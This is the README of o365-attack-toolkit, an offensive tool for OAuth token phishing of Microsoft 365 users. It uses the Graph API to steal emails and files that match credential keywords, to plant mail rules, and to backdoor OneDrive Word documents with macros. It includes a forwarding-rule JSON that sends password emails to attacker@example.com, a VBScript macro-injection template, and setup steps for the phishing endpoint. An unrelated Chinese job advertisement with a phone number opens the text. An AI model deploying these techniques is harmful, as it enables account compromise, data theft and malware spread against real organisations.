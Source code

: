 你好！
很冒昧用这样的方式来和你沟通，如有打扰请忽略我的提交哈。我是光年实验室（gnlab.com）的HR，在招Golang开发工程师，我们是一个技术型团队，技术氛围非常好。全职和兼职都可以，不过最好是全职，工作地点杭州。
我们公司是做流量增长的，Golang负责开发SAAS平台的应用，我们做的很多应用是全新的，工作非常有挑战也很有意思，是国内很多大厂的顾问。
如果有兴趣的话加我微信：13515810775  ，也可以访问 https://gnlab.com/，联系客服转发给HR。
## What is o365-attack-toolkit

o365-attack-toolkit allows operators to perform an OAuth phishing attack and later on use the Microsoft Graph API to extract interesting information.

Some of the  implemented features are :
* Extraction of keyworded e-mails from Outlook.
* Creation of Outlook Rules.
* Extraction of files from OneDrive/Sharepoint.
* Injection of macros on Word documents.


## Architecture

![](/images/Architecture.png)


### The toolkit consists of several components
### Phishing endpoint
The phishing endpoint is responsible for serving the HTML file that performs the OAuth token phishing.
### Backend services
Afterward, the token will be used by the backend services to perform the defined attacks.
### Management interface
The management interface can be utilized to inspect the extracted information from the Microsoft Graph API.

## Features

### Outlook Keyworded Extraction
User emails can be extracted by this toolkit using keywords.
For every defined keyword in the configuration file, all the emails that match them will be downloaded and saved in the database. The operator can inspect the downloaded emails through the management interface.
### Onedrive/Sharepoint Keyworded Extraction
Microsoft Graph API can be used to access files across OneDrive, OneDrive for Business and SharePoint document libraries.
User files can be extracted by this toolkit using keywords.
For every defined keyword in the configuration file, all the documents that match them will be downloaded and saved locally. The operator can examine the documents using the management interface.

### Outlook Rules Creation
Microsoft Graph API supports the creation of Outlook rules. 
You can define different rules by putting the rule JSON files in the rules/ folder.
https://docs.microsoft.com/en-us/graph/api/mailfolder-post-messagerules?view=graph-rest-1.0&tabs=cs

Below is an example rule that when loaded, it will forward every email that contains password in the body to ```attacker@example.com```.
```json
{      
    "displayName": "Example Rule",      
    "sequence": 2,      
    "isEnabled": true,          
    "conditions": {
        "bodyContains": [
          "password"       
        ]
     },
     "actions": {
        "forwardTo": [
          {
             "emailAddress": {
                "name": "Attacker Email",
                "address": "attacker@example.com"
              }
           }
        ],
        "stopProcessingRules": false
     }    
}
```

### Word Document Macro Backdooring
Users documents hosted on OneDrive can be backdoored by injecting macros. If this feature is enabled, the last 15 documents accessed by the user will be downloaded and backdoored with the macro defined in the configuration file. After the backdoored file has been uploaded, the extension of the document will be changed to .doc in order for the macro to be supported on Word.
It should be noted that after backdooring the documents, they can not be edited online which increases the chances of our payload execution.

This functionality can only be used on Windows because the insertion of macros is done using the Word COM object.
A VBS file is built by the template below and executed so don't panic if you see ``wscript.exe`` running.

```vbscript
	Dim wdApp
	Set wdApp = CreateObject("Word.Application")
	wdApp.Documents.Open("{DOCUMENT}")
	wdApp.Documents(1).VBProject.VBComponents("ThisDocument").CodeModule.AddFromFile "{MACRO}"
	wdApp.Documents(1).SaveAs2 "{OUTPUT}", 0
	wdApp.Quit
```

## How to set up

### Compile

```
cd %GOPATH%
git clone https://github.com/0x09AL/o365-attack-toolkit
cd o365-attack-toolkit
dep ensure
go build
```

### Configuration

An example configuration as below :
```
[server]
host = 127.0.0.1 ; The ip address for the external listener.
externalport = 30662 ; Port for the external listener
certificate = server.crt ; Certificate for the external listener
key = server.key ; Key for the external listener
internalport = 8080 ; Port for the internal listener.

; Keywords used for extracting emails and files of a user.
[keywords]
outlook = pass,vpn,creds,credentials
onedrive = password,.config,.xml,db,database,mbd 

[backdoor]
enabled = true ; Enable/Disable this feature
macro = "C:\\Test.bas" ; The location of the macro file to use for backdooring documents
```

### Deployment
Before start using this toolkit you need to create an Application on the Azure Portal.
Go to Azure Active Directory -> App Registrations -> Register an application.

![](/images/registerapp.png)

After creating the application, copy the Application ID and change it on ```static/index.html```.

The URL(external listener) that will be used for phishing should be added as a Redirect URL.
To add a redirect url, go the application and click Add a Redirect URL.

![](/images/redirecturl.png)

The Redirect URL should be the URL that will be used to host the phishing endpoint, in this case ```https://myphishingurl.com/```

![](/images/url.png)

Make sure to check both the boxes as shown below :

![](/images/implicitgrant.png)

It should be noted that you can run this tool on any Operating Systems that Go supports, but the Macro Backdooring Functionality will only work on Windows.

The look of the phishing page can be changed on ```static/index.html```.

##  Security Considerations

Apart from all the features this tool has, it also opens some attack surface on the host running the tool.
Firstly, the Macro Backdooring Functionality will open the word files, and if you are running an unpatched version 
of Office, bad things can happen. Additionally, the extraction of files can download malicious files which will be saved on your computer. 

The best approach would be isolating the  host properly and only allowing communication with the HTTPS redirector and Microsoft Graph API.


## Management Interface

The management interface allows the operator to browse the data that  has been extracted. 

#### Users view

![](/images/users.png)

#### View User Emails

![](/images/emails.png)


#### View Email

![](/images/email.png)

